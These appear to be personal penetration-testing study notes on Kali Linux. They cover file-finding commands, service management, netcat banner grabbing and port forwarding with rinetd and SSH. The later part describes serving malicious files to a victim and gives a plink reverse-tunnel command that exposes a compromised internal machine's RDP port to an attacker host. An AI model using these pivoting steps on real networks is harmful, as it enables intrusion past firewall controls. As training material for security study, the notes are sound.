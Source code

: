 linux utilities to **find or locate** files

1. Locate command: 

Updatedb -- to update the db of the OS

Ex: locate sbd.exe

1. Which command :

Ex: which sbd : prg can be found under /usr/bin/

1. find command:

Ex: find / -name sbd\*

all files lower case sbd and file format.

find  -name sbd\* -exec file{} \;

**Services**:

passwd : change the old and weak pass to new strong password

1. SSH Services : Secure shell

EX : netstat -antp \| grep sshd

Service ssh stop

1. HTTP Server:

TCP based  and download the malicious file to victim

Ex: services apache2 start

echo "kali linux rocks" &gt; /var/www/index.html

1. services management : wrapper around /etc/init.d

4.Service persistent

update -rc.d ssh enable

update-rc.d apache2 enable

RC conf also can be used

**bash scripting**

1. cat index.html l grep "href="
2. cat index.html \| grep "href=" \| cut -d

**Essential**

netcat : network utility able to read and write to TCP and UDP ports

it can be used as TCP client or server

nc -nv 192.168.20.25 25

open

banner

HELP

SMTP list all commands

nc -nv 192.168.30.35 110

bob

password: bob

**Port Forwarding**

rinetd.conf

scenario1:

Internal PC \(Engree port 80 and 443\)

if it want to connect to remote desktop\(67.23.72.109\) it can't as RDP port is blocked.

* If we have a linux machine\(208.88.127.99\) with public IP address we need to use utility rinetd.conf
* Accept traffic of TCP port 80 and redirect to 3389

```
Bindaddress    Bindport    ConnectAddress    Connectport
208.88.127.99    80        67.23.72.109        3389

/etc/init.d/rinetd start
```

Windows machine  \(Internal\) -------&gt; Linux Machine \(Proxy machine\) ------&gt;  Windows Machine \(Remote\)

      RDP - 208.88.127.99:80                     208.88.127.99                                       67.23.72.109:3389



Encrypted tunnel within the ssh tunnel:

**SSH Local Port forwarding \(-L\):**

localport --&gt; remoteport \(Over ssh tunnel\)

**SSH Remote Port forwarding :**

Scenario2\(tunnel a remote port to a local server\):

Initiated Client Attack \(on org\) and got shell of a internal machine \(Non routable\) -- &gt; uploaded a SSH windows client \(plink\) on vi

on victim machine we have RDP enabled \(\)

now to access internal RDP port by creating reverse SSL connection to attacker machine from the victim machine

Now tunnel the local rdp traffic to the remote port using plink

```
plink -l root -pw ubersecretpassword 208.88.127.99 -R 3390:127.0.0.1:3389
```

ssh connection is made and 3390 is in listen mode 

netstat -antp \| grep LISTEN

Now in attacker machine try to tunnel the local traffic to rdp

```
rdesktop 127.0.0.1:3390
```



